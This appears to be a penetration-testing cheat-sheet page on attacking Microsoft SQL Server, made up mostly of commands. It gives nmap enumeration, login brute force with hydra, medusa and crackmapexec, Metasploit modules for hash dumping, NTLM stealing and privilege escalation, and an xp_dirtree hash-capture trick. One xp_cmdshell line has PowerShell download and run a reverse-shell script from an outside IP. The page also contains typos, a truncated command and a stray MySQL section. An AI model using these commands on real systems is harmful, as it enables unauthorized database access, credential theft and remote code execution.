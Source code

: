 ```yaml
---
description: (TCP 1433-4, 135/UDP 143)(TCP 1433-4, 135/UDP 143)
---
```


# 🟡 MSSQL

## :information\_source: <mark style="color:blue;">Introduction</mark>

#### [Microsoft SQL](https://medium.com/@toprak.mhmt/what-is-mssql-9a152d7d4ed0)

By default, the typical ports used by SQL Server and associated database engine services are: **TCP 1433, 4022, 135, 1434, UDP 1434.**

## :ballot\_box\_with\_check: <mark style="color:blue;">Checklist</mark>

* [ ] Try to query the DB if you have creds
* [ ] heck for DAC (Dedicated Access Connection)
* [ ] Login brute force
* [ ] Try NTLM relay with a fake SMB server
* [ ] If you can get access, check for privilege escalation methods to gain admin access to DB
* [ ] Check for CVEs

## <mark style="color:red;">Enumeration</mark>

```
nmap -sV -p 1433,1433  <IP>
nmap --script ms-sql-info <IP>
auxiliary/scanner/mssql/mssql_ping
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <I
```

## <mark style="color:red;">Authenticate with Empty Password</mark>

```
# Attempts to authenticate to Microsoft SQL Servers using an empty password forthe sysadmin (sa) account.
ms-sql-empty-password
```

## <mark style="color:red;">Login Brute Force</mark>

```
nmap -p 1433 –script ms-sql-brute –script-args userdb=[user.txt] ,passdb=[pass.txt] [target
use auxiliary/scanner/mssql/mssql_login
hydra -L [user.txt] –P [pass.txt] [target] mssql
medusa -h [target] –U [user.txt] –P [pass.txt] –M mssql
crackmapexec mssql <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
```

## <mark style="color:red;">Dedicated Admin Connection (DAC)</mark>

The DAC port is used to connect to the database instance when normal connection attempts fail, for example, when server is hanging, out of memory or in other bad states. In addition, the DAC port provides an admin with access to system objects otherwise not accessible over normal connections.

The DAC feature is accessible on the loopback adapter per default, but can be activated for remote access by setting the 'remote admin connection' configuration value to 1. In some cases, when DAC has been remotely enabled but later disabled, the sql browser service may incorrectly report it as available.

```
sudo nmap -sU -p 1434 --script ms-sql-dac <ip>
```

![](<../../.gitbook/assets/image (276) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

## <mark style="color:red;">Query (with credentials)</mark>

### <mark style="color:orange;">Automated</mark>

Queries Microsoft SQL Server (ms-sql) instances for a list of databases, linked servers, and configuration settings.

{% hint style="warning" %}
Credentials are required
{% endhint %}

```
nmap --script ms-sql-config
# example:
nmap -p 1433 --script ms-sql-config --script-args mssql.username=sa,mssql.password=sa <host>
```

sample output:

![](<../../.gitbook/assets/image (274) (1) (1).png>)

#### Other nmap Scripts with Credentials

```
# Dumps the password hashes from an MS-SQL server in a format suitable
# Credentials required
ms-sql-dump-hashes

# Queries Microsoft SQL Server (ms-sql) instances for a list of databases a user hasaccess to.
# Credentials required
ms-sql-hasdbaccess

# Runs a query against Microsoft SQL Server (ms-sql).
# Credentials required.
ms-sql-query

# Queries Microsoft SQL Server (ms-sql) for a list of tables per database.
# Credentials required
ms-sql-tables

# Attempts to run a command using the command shell of Microsoft SQL Server (ms-sql)
# Credentials required
ms-sql-xp-cmdshell
```

#### Metasploit Modules:

```
#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used
​
#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder
​
#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump
​
#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf
​
#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin
​
#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload
​
#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass
```

#### impacket mssqlclient:

```
mssqlclient.py  -db volume -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP> #Recommended -windows-auth when you are going to use a domain. use as domain the netBIOS name of the machine
​
#Once logged in you can run queries:
SQL> select @@ version;
​
#Steal NTLM hash
sudo responder -I <interface> #Run that in other console
SQL> exec master..xp_dirtree '\\<YOUR_RESPONDER_IP>\test' #Steal the NTLM hash, crack it with john or hashcat
​
#Try to enable code execution
SQL> enable_xp_cmdshell
​
#Execute code, 2 sintax, for complex and non complex cmds
SQL> xp_cmdshell whoami /all
SQL> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'
```

#### sqsh

```
sqsh -S <IP> -U <Username> -P <Password> -D <Database>
```

### <mark style="color:orange;">Manual</mark>

#### Local:

```
mysql -u root # Connect to root without password
mysql -u root -p # A password will be asked (check someone)
mysql -u root -h 127.0.0.1 -e 'show databases;'
```

Remote:

```
mysql -h <Hostname> -u root
mysql -h <Hostname> -u user@target-host
```

## <mark style="color:red;">MSSQL - SMB Relay Attack</mark>

If we are in the local network we can run an MitM attack and grab NTLM hashes by setting up a fake SQL server and making the service authenticate against our server.

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/executing-smb-relay-attacks-via-sql-server-using-metasploit" %}

## <mark style="color:red;">Stored Procedures (db\_owner to sysadmin)</mark>

#### if we have the credentials of a DB user we can become sysadmin and execute commands remotely:

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases" %}

### <mark style="color:orange;">Metasploit</mark>

```
use auxiliary/admin/mssql/mssql_esclate_dbowner
set rhost 172.20.10.2
set rport 1433
set username db1_owner
set password MyPassword!
```

## <mark style="color:red;">Stored Procedures (user impersonation)</mark>

This technique is mostly used for privilege escalation.

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-2-user-impersonation" %}
